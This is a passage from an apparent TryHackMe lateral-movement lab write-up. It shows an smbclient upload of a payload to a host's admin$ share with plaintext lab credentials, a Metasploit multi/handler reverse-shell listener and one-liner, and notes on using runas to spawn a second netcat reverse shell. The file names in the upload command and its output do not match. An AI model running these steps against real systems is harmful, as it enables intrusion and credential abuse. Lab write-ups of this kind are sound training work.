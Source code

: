 ```bash
user@AttackBox$ smbclient -c 'put dopedope.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
 putting file myservice.exe as \myservice.exe (0.0 kb/s) (average 0.0 kb/s)
```

	- Seems like from the AttackBox, we are able to upload binary files on the THMIIS machine which we want to move laterally in from THMJMP2.

- Note that the payload will be at `C:\Windows\` directory. I forgot to check it once I got the Metasploit reverse shell.

<u>In the VM</u>:

![](/assets/img/Pasted image 20230205221209.png)

- Once our executable is uploaded, we will set up a listener on the attacker's machine to receive the reverse shell from `msfconsole`:

```bash
user@AttackBox$ msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST lateralmovement
msf6 exploit(multi/handler) > set LPORT 4444
msf6 exploit(multi/handler) > set payload windows/shell/reverse_tcp
msf6 exploit(multi/handler) > exploit 

[*] Started reverse TCP handler on 10.10.10.16:4444
```


- Alternatively, you can run the following one-liner on your Linux console to do the same:

```bash
user@AttackBox$ msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
```


- Since `sc.exe` doesn't allow us to specify credentials as part of the command , we need to use `runas` to spawn a new shell with `t1_leonard.summers`'s access token.
- Still, we only have SSH access to the machine, so if we tried something like `runas /netonly /user:ZA\t1_leonard.summers cmd.exe`, the new command prompt would spawn on the user's session, but ***we would have no access to it***.

![](/assets/img/Pasted image 20230205222456.png)

	- On the left hand side, you can't see the `Flag.exe` at all.
	- This is because the 2nd one is on the THMJMP2 machine while the right hand side is on the THMIIS machine.

<u>In the VM</u>:

![](/assets/img/Pasted image 20230205221444.png)

##### Creating reverse shell connection from `THMJMP2` machine:
- To overcome this problem, we can use `runas` to spawn a **second netcat reverse shell** with `t1_leonard.summers` access token:
